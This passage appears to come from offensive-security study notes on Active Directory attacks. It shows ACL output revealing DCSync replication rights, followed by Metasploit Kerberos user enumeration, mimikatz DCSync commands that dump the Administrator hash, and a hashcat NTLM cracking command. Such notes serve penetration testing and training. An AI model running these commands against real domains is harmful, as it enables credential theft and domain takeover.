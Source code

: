     > Output:
    > IdentityReference        ActiveDirectoryRights ObjectType
    > -----------------        --------------------- ----------
    > CYBER\iis_svc     ReadProperty, GenericExecute 00000000-0000-0000-0000-000000000000
    > CYBER\iis_svc                    ExtendedRight 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
    > CYBER\iis_svc                    ExtendedRight 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2

  - Which may match dsync vulnerability GUIDs (One [link](https://blog.blacklanternsecurity.com/p/detecting-dcsync), other [link](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync))

    > 1131f6aa‑9c07‑11d1‑f79f‑00c04fc2dcd2	Replicating Directory Changes	Enumerate objects in AD
    > 1131f6ad‑9c07‑11d1‑f79f‑00c04fc2dcd2	Replicating Directory Changes All	Enumerate attribute data (password & key material)

- **User Enumeration** Metasploit:

    ```bash
    use auxiliary/gather/kerberos_enumusers
    set RHOSTS <DC IP>
    set DOMAIN <DOMAIN>
    set USERNAME Administrator # Or leave blank to get all
    run
    ```

- **Privilege Escalation via DCSync** once a privileged account is obtained, dump AD secrets:

    ```bash
    privilege::debug
    lsadump::dcsync /domain:<DOMAIN> /user:Administrator
    ```

- **Crack / Re‑use NTLM Hashes**. Example: `hashcat -m 1000 -a 0 admin.hash rockyou.txt` then `--show`.
